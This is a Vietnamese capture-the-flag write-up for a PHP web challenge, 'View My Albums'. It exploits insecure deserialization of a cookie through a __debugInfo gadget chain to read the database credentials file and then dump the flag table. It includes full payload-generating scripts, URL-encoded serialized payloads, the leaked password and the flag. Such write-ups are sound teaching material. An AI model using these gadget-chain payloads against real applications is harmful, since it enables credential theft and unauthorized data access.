





# View My Albums



Giao diện trang web như sau, tại trang này có một số album



Các album này được hiển thị thông qua GET param `id`, gồm có các thông tin về `Artist, Year, Genre`, ngoài cái này ra thì cũng không còn chức năng gì khác



Challenge cho mình source code

```
.
└── dist
    ├── Dockerfile
    ├── albums.sql
    ├── docker-compose.yml
    └── src
        ├── Albums.php
        ├── Records.php
        ├── db_creds.php
        ├── greetings
        │   ├── de
        │   ├── en
        │   └── fr
        └── index.php

3 directories, 10 files
```

Từ file `albums.sql` mình xác định được flag được insert vào bảng `flag`, các thông tin của các Album được lưu ở bảng `albums` 

```sql
CREATE DATABASE IF NOT EXISTS `challenge` /*!40100 DEFAULT CHARACTER SET utf8mb4 */;
USE `challenge`;

CREATE TABLE `albums` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `artist` varchar(255) NOT NULL,
  `year` int(11) NOT NULL,
  `genre` varchar(255) NOT NULL,
  `created_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `updated_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=1 DEFAULT CHARSET=utf8mb4;

INSERT INTO `albums` 
VALUES (1,'Almighty So','Chief Keef',2013,'Drill Rap','2020-05-01 00:00:00','2020-05-01 00:00:00'),
(2,'The Wall','Pink Floyd',1979,'Progressive Rock','2020-05-01 00:00:00','2020-05-01 00:00:00'),
(3,'Trap Back','Gucci Mane',2012,'Hip Hop','2020-05-01 00:00:00','2020-05-01 00:00:00'),
(4,'Thriller','Michael Jackson',1982,'Pop','2020-05-01 00:00:00','2020-05-01 00:00:00'),
(5, 'Anti', 'Rihanna', 2016, 'Pop', '2020-05-01 00:00:00','2020-05-01 00:00:00');

CREATE TABLE `flag` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `flag` varchar(255) NOT NULL,
  `created_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `updated_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=1 DEFAULT CHARSET=utf8mb4;

INSERT INTO `flag`
VALUES (1,'REDACTED', '2020-05-01 00:00:00','2020-05-01 00:00:00');
```

Đọc code trong file `index.php`

```php
<?php

include('Albums.php');
include('db_creds.php');

class UserPrefs {
    private $props = array();
    public $font_size;
    public $font_color;
    public $background_color;
    public $language;
    public $timezone;
    
    public function __set($name, $value) {
        $this->props[$name] = $value;
    }
    
    public function __get($name) {
        return $this->props[$name];
    }
    
}

$allowed_langs = array("en", "fr", "de");

if (isset($_COOKIE['prefs'])) {
    $prefs = unserialize($_COOKIE['prefs']);
    if (!($prefs instanceof UserPrefs)) {
        echo "Unrecognized data: ";
        var_dump($prefs);
        exit;
    }
} else {
    $prefs = new UserPrefs();
    $prefs->font_size = "medium";
    $prefs->font_color = "black";
    $prefs->background_color = "white";
    $prefs->language = "en";
    $prefs->timezone = "UTC";
    $prefs->frob_enabled = true;
    $prefs->frob_level = 11;
    setcookie("prefs", serialize($prefs));
}

if (!in_array($prefs->language, $allowed_langs)) {
    $prefs->language = "en";
}

$albums = new Albums(new MysqlRecordStore($mysql_host, $mysql_user, $mysql_password, $mysql_database, 'albums'));

?>
```

Nếu ở đây có một cookie `prefs` thì chương trình thực hiện gán `$prefs = unserialize($_COOKIE['prefs']);`,  nếu nó không phải lớp `UserPrefs` thì `var_dump($prefs);` để hiển thị giá trị của cookie này. Nếu không có thì chương trình gán cookie cho một object `UserPrefs()` đã được serialized với các giá trị mặc định

```php
if (isset($_COOKIE['prefs'])) {
    $prefs = unserialize($_COOKIE['prefs']);
    if (!($prefs instanceof UserPrefs)) {
        echo "Unrecognized data: ";
        var_dump($prefs);
        exit;
    }
} else {
    $prefs = new UserPrefs();
    $prefs->font_size = "medium";
    $prefs->font_color = "black";
    $prefs->background_color = "white";
    $prefs->language = "en";
    $prefs->timezone = "UTC";
    $prefs->frob_enabled = true;
    $prefs->frob_level = 11;
    setcookie("prefs", serialize($prefs));
}
```
Khởi tạo `$albums` để truy xuất dữ liệu ở trong bảng `albums`

```php
$albums = new Albums(new MysqlRecordStore($mysql_host, $mysql_user, $mysql_password, $mysql_database, 'albums'));
```

Class `MysqlRecordStore` trong file `Records.php`, tại class này thì có các phương thức để thực hiện các câu truy vấn tương tác với MySQL

```php
class MysqlRecordStore implements RecordStore
{
    private $mysqli;
    private $table;
    private $host;
    private $user;
    private $pass;
    private $db;

    public function __construct($host, $user, $pass, $db, $table) {
        $this->host = $host;
        $this->user = $user;
        $this->pass = $pass;
        $this->db = $db;
        $this->mysqli = new mysqli($host, $user, $pass, $db);
        $this->table = $table;
    }

    public function getRecord($id) {
        $stmt = $this->mysqli->prepare("SELECT * FROM {$this->table} WHERE id = ?");
        $stmt->bind_param('i', $id);
        $stmt->execute();
        $row = $stmt->get_result()->fetch_assoc();
        $record = new Record($id);
        foreach ($row as $key => $value) {
            $record->$key = $value;
        }
        return $record;
    }

    public function addRecord($record) {
        $keys = array();
        $values = array();
        foreach ($record->getArray() as $key => $value) {
            $keys[] = $key;
            $values[] = '?';
        }
        $keys = implode(',', $keys);
        $values = implode(',', $values);
        $stmt = $this->mysqli->prepare("INSERT INTO {$this->table} ($keys) VALUES ($values)");
        $stmt->bind_param(str_repeat('s', count($record->getArray())), ...$record->getArray());
        $stmt->execute();
        return $stmt->insert_id;
    }

    public function updateRecord($id, $record) {
        $updates = array();
        foreach ($record->getArray() as $key => $value) {
            $updates[] = "$key = ?";
        }
        $updates = implode(',', $updates);
        $stmt = $this->mysqli->prepare("UPDATE {$this->table} SET $updates WHERE id = ?");
        $stmt->bind_param(str_repeat('s', count($record->getArray())) . 'i', ...array_merge($record->getArray(), [$id]));
        $stmt->execute();
    }

    public function deleteRecord($id) {
        $stmt = $this->mysqli->prepare("DELETE FROM {$this->table} WHERE id = ?");
        $stmt->bind_param('i', $id);
        $stmt->execute();
    }

    public function getAllRecords() {
        $stmt = $this->mysqli->prepare("SELECT * FROM {$this->table}");
        $stmt->execute();
        $rows = $stmt->get_result()->fetch_all(MYSQLI_ASSOC);
        $records = array();
        foreach ($rows as $row) {
            $record = new Record($row['id']);
            foreach ($row as $key => $value) {
                $record->$key = $value;
            }
            $records[] = $record;
        }
        return $records;
    }

    public function __destruct() {
        $this->mysqli->close();
    }

    public function __wakeup() {
        $this->mysqli = new mysqli($this->host, $this->user, $this->pass, $this->db);
    }
}
```

Tương tự vậy trong file này mình cũng có các class `JsonRecordStore` và `CsvRecordStore` thực hiện `getRecord, addRecord, updateRecord, deleteRecord, getAllRecords` với các file `json` và `csv`

```php
class JsonRecordStore implements RecordStore
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }

    public function getRecord($id) {
        $data = json_decode(file_get_contents($this->file), true);
        $record = new Record($id);
        foreach ($data[$id] as $key => $value) {
            $record->$key = $value;
        }
        return $record;
    }

    public function addRecord($record) {
        $data = json_decode(file_get_contents($this->file), true);
        $data[] = $record->getArray();
        file_put_contents($this->file, json_encode($data));
        return count($data) - 1;
    }

    public function updateRecord($id, $record) {
        $data = json_decode(file_get_contents($this->file), true);
        $data[$id] = $record->getArray();
        file_put_contents($this->file, json_encode($data));
    }

    public function deleteRecord($id) {
        $data = json_decode(file_get_contents($this->file), true);
        unset($data[$id]);
        file_put_contents($this->file, json_encode($data));
    }

    public function getAllRecords() {
        $data = json_decode(file_get_contents($this->file), true);
        $records = array();
        foreach ($data as $id => $row) {
            $record = new Record($id);
            foreach ($row as $key => $value) {
                $record->$key = $value;
            }
            $records[] = $record;
        }
        return $records;
    }
}

class CsvRecordStore implements RecordStore
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }

    public function getRecord($id) {
        $data = array_map('str_getcsv', file($this->file));
        $record = new Record($id);
        foreach ($data[$id] as $key => $value) {
            $record->$key = $value;
        }
        return $record;
    }

    public function addRecord($record) {
        $data = array_map('str_getcsv', file($this->file));
        $data[] = $record->getArray();
        $fp = fopen($this->file, 'w');
        foreach ($data as $fields) {
            fputcsv($fp, $fields);
        }
        fclose($fp);
        return count($data) - 1;
    }

    public function updateRecord($id, $record) {
        $data = array_map('str_getcsv', file($this->file));
        $data[$id] = $record->getArray();
        $fp = fopen($this->file, 'w');
        foreach ($data as $fields) {
            fputcsv($fp, $fields);
        }
        fclose($fp);
    }

    public function deleteRecord($id) {
        $data = array_map('str_getcsv', file($this->file));
        unset($data[$id]);
        $fp = fopen($this->file, 'w');
        foreach ($data as $fields) {
            fputcsv($fp, $fields);
        }
        fclose($fp);
    }

    public function getAllRecords() {
        $data = array_map('str_getcsv', file($this->file));
        $records = array();
        foreach ($data as $id => $row) {
            $record = new Record($id);
            foreach ($row as $key => $value) {
                $record->$key = $value;
            }
            $records[] = $record;
        }
        return $records;
    }
}
```

Trong `Albums.php`, class Album có thuộc tính `$store` là một class trong 3 class trên, các phương thức trong class này cũng có chức năng tương tự 3 class trên

```php
<?php
include('Records.php');

class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }

    public function getAlbum($id) {
        return $this->store->getRecord($id);
    }

    public function addAlbum($album) {
        return $this->store->addRecord($album);
    }

    public function updateAlbum($id, $album) {
        return $this->store->updateRecord($id, $album);
    }

    public function deleteAlbum($id) {
        return $this->store->deleteRecord($id);
    }

    public function getAllAlbums() {
        return $this->store->getAllRecords();
    }

    public function __debugInfo() {
        return $this->getAllAlbums();
    }
}
```

Nhưng mình có để ý trong class này có 1 magic method `__debugInfo()` trả về `getAllAlbums()`, theo như mình tìm hiểu thì method này sẽ được gọi khi mà chương trình sử dụng `var_dump()` hoặc `print_r()` cho một đối tượng

```php
    public function __debugInfo() {
        return $this->getAllAlbums();
    }
```

Tại `db_creds.php` cấu hình cho MySQL, trong source mà challenge đã cho thì mình đã biết được `host, database, user` chỉ còn `password` là mình chưa biết 

```php
<?php

$mysql_host = 'mysql';
$mysql_database = 'challenge';
$mysql_user = 'user';
$mysql_password = 'yeah_im_different';
```

Tổng hợp lại thì mình dự đoán challenge này là lỗ hổng Insecure Deserialize in PHP, mục tiêu của mình là connect đến MySQL tại table flag và lấy dữ liệu từ đó ra, mà mình chưa có password nên mình cần phải tìm ra password 

Trong file `Records.php` thì có 2 class tương tác với file `json` và `csv`, nên ý tưởng của mình là sử dụng 2 class này để đọc file `db_creds.php` thông qua phương thức `getAllRecords()`, mà class `JsonRecordStore` chỉ để đọc file json, còn class `CsvRecordStore` có thể đọc các file khác được, nên mình sẽ sử dụng class `CsvRecordStore`

```php
class CsvRecordStore implements RecordStore
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }
    ...
    public function getAllRecords() {
        $data = array_map('str_getcsv', file($this->file));
        $records = array();
        foreach ($data as $id => $row) {
            $record = new Record($id);
            foreach ($row as $key => $value) {
                $record->$key = $value;
            }
            $records[] = $record;
        }
        return $records;
    }
}

```

Tại sao mình lại sử dụng phương thức `getAllRecords()` để đọc file creds, thì mình cũng đã có nói ở trên, magic method `__debugInfo()` sẽ được gọi khi chương trình `var_dump()` đối tượng, hàm `var_dump()` này nằm ở `index.php`, khi được gọi lên thì nó lại gọi tiếp đến phương thức `getAllAlbums()`, nếu như thuộc tính `$store` ở đây là một đối tượng `CsvRecordStore` với thuộc tính `$file` là đường dẫn đến file `db_creds.php` thì mình có thể trigger ra được các dữ liệu trong này

```php
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
    ...
	public function getAllAlbums() {
        return $this->store->getAllRecords();
    }

    public function __debugInfo() {
        return $this->getAllAlbums();
    }
}

// index.php
if (isset($_COOKIE['prefs'])) {
    $prefs = unserialize($_COOKIE['prefs']);
    if (!($prefs instanceof UserPrefs)) {
        echo "Unrecognized data: ";
        var_dump($prefs);
        exit;
    }
```

Như đã phân tích, mình viết script `leak_db_creds.php`

```php
<?php

class CsvRecordStore 
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }
}
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
}
$a = new Albums(new CsvRecordStore("db_creds.php"));
$b = urlencode(serialize($a));
echo $b;


?>
// O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A14%3A%22CsvRecordStore%22%3A1%3A%7Bs%3A20%3A%22%00CsvRecordStore%00file%22%3Bs%3A12%3A%22db_creds.php%22%3B%7D%7D
```

Gửi request với cookie vừa tạo



Vậy là mình đã có đủ các tham số để connect tới MySQL

```php
$mysql_host = 'mysql'
$mysql_database = 'challenge'
$mysql_user = 'user'
$mysql_password = 'j90dsgjdjds09djvupx'
```

Để connect đến MySQL thì mình cũng làm tương tự như của chương trình ở trong `index.php`, chỉ cần thay tên bảng thành `flag` là được

```php
$albums = new Albums(new MysqlRecordStore($mysql_host, $mysql_user, $mysql_password, $mysql_database, 'flag'));
```

Viết script để tạo chuỗi serialize `get_flag.php`

```php
<?php
class MysqlRecordStore 
{
    private $mysqli;
    private $table;
    private $host;
    private $user;
    private $pass;
    private $db;

    public function __construct($host, $user, $pass, $db, $table) {
        $this->host = $host;
        $this->user = $user;
        $this->pass = $pass;
        $this->db = $db;
        $this->table = $table;
    }
}

class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
}

$a = new Albums(new MysqlRecordStore('mysql', 'user', 'j90dsgjdjds09djvupx', 'challenge', 'flag'));
$b = urlencode(serialize($a));
echo $b;

?>
// O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A16%3A%22MysqlRecordStore%22%3A6%3A%7Bs%3A24%3A%22%00MysqlRecordStore%00mysqli%22%3BN%3Bs%3A23%3A%22%00MysqlRecordStore%00table%22%3Bs%3A4%3A%22flag%22%3Bs%3A22%3A%22%00MysqlRecordStore%00host%22%3Bs%3A5%3A%22mysql%22%3Bs%3A22%3A%22%00MysqlRecordStore%00user%22%3Bs%3A4%3A%22user%22%3Bs%3A22%3A%22%00MysqlRecordStore%00pass%22%3Bs%3A19%3A%22j90dsgjdjds09djvupx%22%3Bs%3A20%3A%22%00MysqlRecordStore%00db%22%3Bs%3A9%3A%22challenge%22%3B%7D%7D
```

Gửi request và mình có flag



`Flag: grey{l4_mu5iCA_DE_haIry_FroG}`
